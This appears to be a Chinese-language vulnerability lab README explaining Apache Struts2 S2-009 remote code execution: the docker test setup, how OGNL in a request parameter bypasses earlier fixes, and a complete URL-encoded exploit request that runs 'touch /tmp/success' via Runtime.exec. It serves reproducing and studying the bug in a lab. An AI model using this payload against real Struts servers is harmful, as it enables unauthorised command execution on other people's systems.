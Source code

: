 # S2-009 远程代码执行漏洞

影响版本: 2.1.0 - 2.3.1.1

漏洞详情: http://struts.apache.org/docs/s2-009.html

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```

## 原理

> 前置阅读： 这个漏洞再次来源于s2-003、s2-005。了解该漏洞原理，需要先阅读s2-005的说明：https://github.com/phith0n/vulhub/blob/master/struts2/s2-005/README.md

参考[Struts2漏洞分析之Ognl表达式特性引发的新思路](https://www.t00ls.net/viewthread.php?tid=21197)，文中说到，该引入ognl的方法不光可能出现在这个漏洞中，也可能出现在其他java应用中。

Struts2对s2-003的修复方法是禁止静态方法调用，在s2-005中可直接通过OGNL绕过该限制，对于`#`号，同样使用编码`\u0023`或`\43`进行绕过；于是Struts2对s2-005的修复方法是禁止`\`等特殊符号，使用户不能提交反斜线。

但是，如果当前action中接受了某个参数`example`，这个参数将进入OGNL的上下文。所以，我们可以将OGNL表达式放在`example`参数中，然后使用`/helloword.acton?example=<OGNL statement>&(example)('xxx')=1`的方法来执行它，从而绕过官方对`#`、`\`等特殊字符的防御。

## Exploit构造

测试环境是一个struts2的“功能展示”网站`Struts Showcase`，代码很多，我们的目标是去找一个接受了参数，参数类型是string的action。

先对`S2-009.war`进行解压（我用binwalk，其实直接zip就可以），可见源码都在`WEB-INF/src`目录中，我一般找ajax相关的代码，这些代码一般逻辑比较简单。

找到一个`WEB-INF/src/java/org/apache/struts2/showcase/ajax/Example5Action.java`：

```java
public class Example5Action extends ActionSupport {

    private static final long serialVersionUID = 2111967621952300611L;

    private String name;
    private Integer age;


    public String getName() { return name; }
    public void setName(String name) { this.name = name; }

    public Integer getAge() { return age; }
    public void setAge(Integer age) { this.age = age; }

    @Override
    public String execute() throws Exception {
        return SUCCESS;
    }
}
```

代码没有更简单了，其接受了name参数并调用setName将其赋值给私有属性`this.name`，正是符合我们的要求。然后去`WEB-INF/src/java/struts-ajax.xml`看一下URL路由：

```xml
<package name="ajax" extends="struts-default">
    ...
    <action name="example5" class="org.apache.struts2.showcase.ajax.Example5Action">
        <result name="input">/ajax/tabbedpanel/example5.jsp</result>
        <result>/ajax/tabbedpanel/example5Ok.jsp</result>
    </action>
    ...
</package>
```

`name=example5`，所以访问`http://your-ip:8080/ajax/example5.action`即可访问该控制器。按照原理中说到的方法，将OGNL利用代码放在name参数里，访问该URL：

```
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/success%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
Host: localhost:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

由于该POC没有回显，所以调用的是`touch /tmp/success`命令，查看/tmp目录发现已经成功：

![](1.png)

黑盒情况下，这个洞也不是限制特别大。只要你在正常业务中找到传参的地方，就用该参数名可以试试。
